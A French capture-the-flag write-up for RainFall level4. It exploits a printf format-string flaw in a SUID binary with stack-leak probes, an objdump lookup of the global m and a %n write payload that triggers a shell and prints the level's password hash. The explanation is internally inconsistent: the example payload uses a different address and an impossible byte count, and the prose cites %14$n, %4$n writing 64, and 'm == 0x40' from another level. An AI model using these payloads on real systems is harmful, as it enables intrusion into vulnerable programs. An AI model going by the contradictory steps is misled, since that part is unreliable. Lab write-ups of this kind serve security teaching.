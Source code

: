 # Level4: FORMAT STRING

### Première étape — tester le programme

```bash
$ ./level4
a
a
```

Le programme affiche l'entrée.

### Ouvrons le binaire
```s
08048444 <p>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	8b 45 08             	mov    0x8(%ebp),%eax
 804844d:	89 04 24             	mov    %eax,(%esp)
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
 8048455:	c9                   	leave  
 8048456:	c3                   	ret    

08048457 <n>:
 8048457:	55                   	push   %ebp
 8048458:	89 e5                	mov    %esp,%ebp
 804845a:	81 ec 18 02 00 00    	sub    $0x218,%esp
 8048460:	a1 04 98 04 08       	mov    0x8049804,%eax
 8048465:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048469:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
 8048470:	00 
 8048471:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 8048477:	89 04 24             	mov    %eax,(%esp)
 804847a:	e8 d1 fe ff ff       	call   8048350 <fgets@plt>
 804847f:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 8048485:	89 04 24             	mov    %eax,(%esp)
 8048488:	e8 b7 ff ff ff       	call   8048444 <p>
 804848d:	a1 10 98 04 08       	mov    0x8049810,%eax
 8048492:	3d 44 55 02 01       	cmp    $0x1025544,%eax
 8048497:	75 0c                	jne    80484a5 <n+0x4e>
 8048499:	c7 04 24 90 85 04 08 	movl   $0x8048590,(%esp)
 80484a0:	e8 bb fe ff ff       	call   8048360 <system@plt>
 80484a5:	c9                   	leave  
 80484a6:	c3                   	ret    

080484a7 <main>:
 80484a7:	55                   	push   %ebp
 80484a8:	89 e5                	mov    %esp,%ebp
 80484aa:	83 e4 f0             	and    $0xfffffff0,%esp
 80484ad:	e8 a5 ff ff ff       	call   8048457 <n>
 80484b2:	c9                   	leave  
 80484b3:	c3                   	ret    
```

La première chose que nous pouvons remarquer, c'est que contrairement au niveau précédent nous n'avons pas `gets()` mais `fgets()` (version protégée). Plus loin nous voyons un appel à `printf` particulier : regardons cela de plus près.

```c
void p(char *param_1)

{
  printf(param_1);
  return;
}

```

- 1ᵉʳ constat : `printf()` prend en paramètre **seulement** le buffer retourné par `fgets()` c'est très dangereux.
- 2ᵉᵐᵉ constat : il existe une condition qui lance un shell (`system`) si `m == 0x1025544` c'est notre objectif pour obtenir le cat de .pass du level5.
- 3ᵉᵐᵉ constat : `m` est une variable globale dans la `.bss` comparée à `0x1025544` (16930116 decimal).

> _INFO :_ Comme nous le savons, modifier EAX dans GDB au moment du `cmp` ne suffit pas car le kernel set le **SUIDbinary= RUID**. L'objectif ici est donc de **bypasser la condition à l'exécution** en écrivant la valeur `0x1025544` dans la variable `m` **depuis** l'exécution normale, via une vulnérabilité de format string.

`fgets` empêche l'overflow classique, donc `ret2ret`/ret-overflow n'est pas applicable ici. En revanche `printf(local_20c)` nous donne une voie : **format string exploit**.

### Calculez l'offset pour l'attaque

Maintenant que nous avons notre point d'entrée (`printf`) et que nous savons que nous devons bypasser `if (m == 0x40)`, nous allons trouver quel paramètre de notre `printf` contient notre donnée.

```bash
level4@RainFall:~$ ./level4
python -c 'print "AAAA" + ".%p"*(20)' | ./level4
AAAA.0xb7ff26b0.0xbffff794.0xb7fd0ff4.(nil).(nil).0xbffff758.0x804848d.0xbffff550.0x200.0xb7fd1ac0.0xb7ff37d0.0x41414141.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025
```

La présence de `0x41414141` (ASCII de `AAAA`) dans la sortie indique que **notre chaîne `AAAA` est présente** à la position d'argument correspondante dans la pile. On utilise donc `%p`/`%x` pour **trouver l'offset** : l'index d'argument de `printf` où se trouve notre donnée.

> _Attention_ : `0x41414141` n'est **pas** automatiquement l'EIP. C'est la valeur `AAAA` trouvée sur la pile. Pour confirmer si l'EIP est écrasé, il faut regarder les registres et la pile dans GDB après un crash.

Maintenant que nous savons que le 12ᵉ paramètre correspond à `AAAA`, on peut utiliser cet offset pour écrire dans la variable `m`.

Nous pouvons le confirmer grace a cette commande :
```bash
level4@RainFall:~$ ./level4
AAAA%12$x
AAAA41414141 #Nous avons le bon offset !
```

### Cherchez l'adresse de la variable `m`

Puisque `m` est dans la section `.bss`, on peut trouver son adresse avec `objdump` (ou `readelf`/`nm`). Exemple extrait :

```bash
level4@RainFall:~$ objdump -t ./level4 | grep "\bm\b"
08049810 g     O .bss	00000004              m
```

Ici l'adresse de `m` est `0x08049810`.

### Créer l'exploit

Principe :
- Placer l'adresse de `m` (little-endian) dans l'entrée pour que `printf` la lise comme argument.
- Imprimer un total de 6416930116 octets - le target (4 octets) puis utiliser `%6416930112c%14$n` pour écrire le nombre total d'octets imprimés dans l'adresse `m`.
- Utiliser l'**offset** trouvé auparavant (ici 12) pour indiquer quel argument contient l'adresse.

Exemple de payload :

```bash
python -c 'print b"\x8c\x98\x04\x08" + b"%6416930112c%12$n"'
```

Explication :
- `"\x8c\x98\x04\x08"` : adresse de `m` (little-endian).
- `"%4$n"` : on utilise la position 4 (offset) et `%n` pour écrire un octet (la valeur 64) à l'adresse pointée par le 4ᵉ argument.

**Note** : selon l'alignement et la libc, il peut être nécessaire d'ajuster l'offset ou d'utiliser `%n`/`%hn` selon le type de la variable. Les spécificateurs positionnels (`%N$...`) rendent souvent l'exploit plus fiable.

### Exécution (exemple)

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08"+  b"%16930112c%12$n"' | ./level4
-----
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

Tada ! L'écriture a fonctionné, la condition `m == 0x1025544` est vraie, le shell est lancé et cat nous affiche bien le flag.

Bonne chance et have fun :)

